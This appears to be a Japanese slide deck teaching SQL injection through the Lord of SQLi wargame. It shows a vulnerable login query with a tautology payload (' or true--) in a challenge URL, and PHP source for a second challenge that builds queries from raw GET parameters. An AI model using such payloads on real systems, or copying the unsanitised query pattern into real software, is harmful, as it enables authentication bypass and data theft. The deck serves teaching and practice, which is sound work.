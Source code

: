 以下のクエリで 1 行以上を SELECT

```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

<v-click>

## Answer

以下のように入力

```
https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=' or true--%20
```

これで以下の SQL が実行されることになる

```sql
select id from prob_gremlin where id='' or true-- and pw=''
```

</v-click>

<div v-click>
すべての行が SELECT 出来た！
</div>

---

# 他の問題

```php {all|6|8-9|11-14|all}
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello admin</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
```

<div v-click>
正しいPWを調べなければいけない！！
</div>

---
